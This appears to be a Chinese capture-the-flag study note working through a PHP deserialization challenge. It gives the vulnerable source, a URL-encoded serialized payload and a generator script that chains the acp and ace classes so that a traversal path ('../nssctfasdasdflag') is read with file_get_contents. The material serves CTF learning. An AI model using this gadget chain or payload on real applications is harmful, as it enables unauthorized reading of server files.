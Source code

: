 [TOC]

一次反序列化例题。2023.10.5

```
<?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() //3，要调用的是ace中的echo_name，但这边实例化的是pksshow所以，要修改它。
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name(); //2，从这调用，
    }  
}  

class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file)) //1，从这个函数拿到flag，那么，如何调用这个函数呢， 
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  

if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
else 
{ 
    highlight_file(__file__); 
}
?>
```

题目

做反序列化的题要从里往外做，从如何拿到flag开始。

反序列化要拿到的是最后的反序列化对象，而函数，对象都只是手段，我们最终要拿到的是可以被解析的，正确的，反序列化对象。

```
O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A19%3A%22..%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

有了它就可以解题。不用拘泥于源码，要用而不是全用。

```
<?php  

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct($a)
	{
		$this->cinder=$a;
	}
}
class ace
{    
    public $filename="../nssctfasdasdflag";     
    public $openstack;
    public $docker; 
	function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}

$b = new ace();
$b->docker=null;
$a = new acp($b);
echo urlencode(serialize($a))

?>
```

###### 去杂  c绕过 filterchain base64去杂

[欢迎回来 ᕕ(◠ڼ◠)ᕗ ctfshow元旦水友赛 | 雲流のLowest World (c1oudfl0w0.github.io)](https://c1oudfl0w0.github.io/blog/2023/12/31/ctfshow元旦水友赛/)

[[ctfshow 2023元旦水友赛\]web题解_

[CTFshow元旦水友赛官方WP (qq.com)](https://docs.qq.com/doc/DRlBMcWdhZW9ZUnFB?groupUin=Wwq6gf%2FNtUosizeYbx%2Fepg%3D%3D)

[ctfshow元旦水友赛 easy_web_ctfshow元旦水友赛misc 以假乱真-CSDN博客](https://blog.csdn.net/m0_64016126/article/details/135368226?ops_request_misc=&request_id=&biz_id=102&utm_term=ctfshow 元旦水友赛&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-2-135368226.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)